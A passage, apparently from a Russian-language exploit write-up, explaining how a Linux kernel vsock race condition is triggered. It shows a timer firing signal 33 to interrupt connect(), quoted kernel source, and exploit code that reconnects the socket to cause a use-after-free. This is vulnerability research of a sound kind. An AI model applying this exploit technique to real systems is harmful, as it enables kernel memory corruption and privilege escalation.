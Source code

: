 Верно, эти сигналы недоступны для приложений, но они идеально подходят для моего эксплойта 😉

<center><img src="/img/secret-ru.jpg" width="50%"></center><br>

Для созданного таймера `race_timer` я использую `timer_settime()`, что позволяет выбрать точный момент, когда сигнал 33 должен прервать уязвимый системный вызов `connect()`. Более того, этот сигнал невидим для процесса эксплойта и не вредит ему.

## О повреждении памяти

Состояние гонки возникает, когда системный вызов `connect()` прерывается сигналом. Если при этом уязвимый сокет находится в состоянии `TCP_ESTABLISHED`, то он [переходит](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/af_vsock.c#L1475) в состояние `TCP_CLOSING`:

```c
if (signal_pending(current)) {
	err = sock_intr_errno(timeout);
	sk->sk_state = sk->sk_state == TCP_ESTABLISHED ? TCP_CLOSING : TCP_CLOSE;
	sock->state = SS_UNCONNECTED;
	vsock_transport_cancel_pkt(vsk);
	vsock_remove_connected(vsk);
	goto out_wait;
}
```

Повторная попытка подключить уязвимый vsock, находящийся в таком состоянии, к серверному vsock с другим `svm_cid` (`VMADDR_CID_HYPERVISOR`) приводит к повреждению памяти.

```c
struct sockaddr_vm addr = {
	.svm_family = AF_VSOCK,
	.svm_port = UAF_PORT,
	.svm_cid = VMADDR_CID_HYPERVISOR
};

/* this connect will schedule the kernel worker performing UAF */
ret = connect(vsock2, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
```
